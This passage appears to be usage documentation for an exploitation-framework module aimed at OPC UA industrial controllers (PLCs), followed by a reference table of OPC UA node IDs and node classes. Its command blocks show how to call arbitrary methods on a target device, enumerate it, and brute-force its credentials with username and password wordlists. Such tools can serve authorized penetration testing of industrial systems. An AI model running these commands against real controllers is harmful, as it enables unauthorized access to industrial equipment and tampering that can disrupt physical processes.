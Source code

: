 #### Call Method
```bash
use exploits/plcs/opcua/opcua_device_control
set target 192.168.1.10
set operation call_method
set object_node_id i=85
set method_node_id i=1234
set arguments "arg1,arg2,arg3"
run
```

#### Enumerate Device
```bash
use exploits/plcs/opcua/opcua_device_control
set target 192.168.1.10
set operation enumerate
run
```

#### Brute Force Credentials
```bash
use exploits/plcs/opcua/opcua_device_control
set target 192.168.1.10
set operation brute_force
set password_wordlist passwords.txt
set username_wordlist usernames.txt
set brute_force_delay 1.0
run
```

## OPC UA Node Types

### Common Node IDs

| Node ID | Description |
|---------|-------------|
| `i=84` | Root |
| `i=85` | Objects |
| `i=86` | Types |
| `i=87` | Views |
| `i=88` | Methods |
| `i=2253` | Server |

### Node Classes

- **Object**: Objects that can contain other nodes
- **Variable**: Variables that hold values
- **Method**: Methods that can be called
- **ObjectType**: Object type definitions
- **VariableType**: Variable type definitions
- **ReferenceType**: Reference type definitions
- **DataType**: Data type definitions
- **View**: Views that provide filtered access to nodes
